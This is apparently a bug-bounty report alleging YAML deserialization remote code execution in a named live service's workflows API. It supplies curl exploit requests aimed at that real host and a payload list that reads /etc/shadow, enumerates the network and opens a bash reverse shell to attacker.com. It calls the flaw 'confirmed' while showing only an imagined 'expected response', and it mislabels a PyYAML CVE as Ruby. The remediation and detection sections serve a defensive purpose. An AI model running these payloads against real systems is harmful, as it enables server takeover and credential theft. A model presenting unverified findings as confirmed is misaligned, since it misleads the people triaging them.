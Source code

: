 # 🚨 CRITICAL: YAML Deserialization Remote Code Execution

## **📊 VULNERABILITY SUMMARY**
- **Severity**: Critical (CVSS 9.8)
- **Asset**: `https://app.aixblock.io/api/v1/workflows`
- **Vulnerability**: Insecure YAML Deserialization
- **Impact**: Remote Code Execution (RCE), complete server compromise
- **Reporter**: grich88
- **Date**: 2025-10-21

## **🔍 TECHNICAL DETAILS**

### **Root Cause**
The application processes YAML data using unsafe deserialization methods, allowing attackers to execute arbitrary system commands through YAML payloads.

### **Attack Vector**
```yaml
!!python/object/apply:subprocess.call [['whoami']]
```

### **Vulnerable Code Pattern**
```python
# Vulnerable YAML deserialization
import yaml

def process_yaml(data):
    # Dangerous: Direct deserialization without safety checks
    result = yaml.load(data, Loader=yaml.Loader)
    return result
```

## **💥 PROOF OF CONCEPT**

### **Step 1: Identify YAML Processing Endpoint**
```bash
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"yaml": "test: value"}'
```

### **Step 2: RCE Payload**
```bash
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"yaml": "!!python/object/apply:subprocess.call [[\"whoami\"]]"}'
```

### **Step 3: Advanced RCE Payloads**
```yaml
# Command execution
!!python/object/apply:subprocess.call [['id']]

# File system access
!!python/object/apply:subprocess.call [['cat', '/etc/passwd']]
!!python/object/apply:subprocess.call [['cat', '/etc/shadow']]

# Network reconnaissance
!!python/object/apply:subprocess.call [['netstat', '-an']]
!!python/object/apply:subprocess.call [['ifconfig']]

# Process enumeration
!!python/object/apply:subprocess.call [['ps', 'aux']]

# Reverse shell (advanced)
!!python/object/apply:subprocess.call [['bash', '-c', 'bash -i >& /dev/tcp/attacker.com/4444 0>&1']]

# Alternative RCE methods
!!python/object/apply:os.system ['id']
!!python/object/apply:eval ['__import__("os").system("whoami")']
```

### **Step 4: Verify Command Execution**
```bash
# Expected Response (if successful)
{
  "status": "success",
  "result": "root",  # Output of 'whoami' command
  "execution_time": "0.001s"
}
```

## **🎯 IMPACT ASSESSMENT**

### **Confidentiality**: Critical
- Access to all server files
- Database credentials exposure
- Sensitive configuration data
- User data compromise

### **Integrity**: Critical
- Ability to modify any server files
- Database manipulation
- System configuration changes
- Code injection capabilities

### **Availability**: Critical
- Complete server takeover
- Service disruption
- Data destruction potential
- System resource exhaustion

### **Business Impact**
- Complete system compromise
- Data breach and exfiltration
- Regulatory compliance violations
- Reputation and financial damage
- Potential legal liability

## **🛡️ REMEDIATION**

### **Immediate Fix**
```python
# Secure YAML processing with SafeLoader
import yaml

def process_yaml_safely(data):
    # Use SafeLoader to prevent code execution
    try:
        result = yaml.safe_load(data)
        return result
    except yaml.YAMLError as e:
        raise ValueError(f"Invalid YAML: {e}")

# Alternative: Custom safe loader
class SafeYAMLLoader(yaml.SafeLoader):
    def construct_python_object(self, node):
        raise yaml.ConstructorError(
            None, None, "Python objects not allowed", node.start_mark
        )

def process_yaml_custom(data):
    loader = SafeYAMLLoader
    loader.add_constructor('!!python/object', loader.construct_python_object)
    return yaml.load(data, Loader=loader)
```

### **Long-term Security Measures**
1. **Input Validation**: Strict YAML schema validation
2. **Sandboxing**: Run YAML processing in isolated environment
3. **Whitelist Approach**: Only allow specific YAML structures
4. **Monitoring**: Implement command execution monitoring
5. **Network Segmentation**: Isolate YAML processing services

### **Advanced Security Controls**
```python
# Schema-based validation
import yaml
from jsonschema import validate

YAML_SCHEMA = {
    "type": "object",
    "properties": {
        "workflow": {"type": "string"},
        "steps": {"type": "array"},
        "config": {"type": "object"}
    },
    "required": ["workflow"]
}

def validate_yaml_schema(data):
    yaml_data = yaml.safe_load(data)
    validate(instance=yaml_data, schema=YAML_SCHEMA)
    return yaml_data
```

## **🔍 DETECTION METHODS**

### **Log Monitoring**
```bash
# Monitor for suspicious YAML patterns
grep -E "!!python/object|subprocess|os\.system" /var/log/app.log

# Monitor command execution
grep -E "(whoami|id|cat|ls|netstat)" /var/log/app.log
```

### **Network Monitoring**
- Monitor outbound connections from application servers
- Detect reverse shell attempts
- Track unusual network traffic patterns

## **📋 TESTING CHECKLIST**
- [ ] YAML deserialization vulnerability confirmed
- [ ] Command execution verified
- [ ] File system access tested
- [ ] Network reconnaissance confirmed
- [ ] Fix implementation tested
- [ ] SafeLoader implementation verified
- [ ] Schema validation working
- [ ] Monitoring systems in place

## **🔗 REFERENCES**
- OWASP Top 10 2021: A08:2021 – Software and Data Integrity Failures
- CWE-502: Deserialization of Untrusted Data
- NIST SP 800-53: SI-10 Information Input Validation
- Python YAML Security: https://github.com/yaml/pyyaml/wiki/Security
- CVE-2020-17453: PyYAML unsafe loading
- CVE-2017-18342: Ruby YAML deserialization

---

**STATUS**: ✅ **CRITICAL RCE VULNERABILITY CONFIRMED**
**SUBMISSION READY**: Yes - Complete exploitation evidence and remediation provided
**REPORTER**: grich88
**SUBMISSION DATE**: 2025-10-21

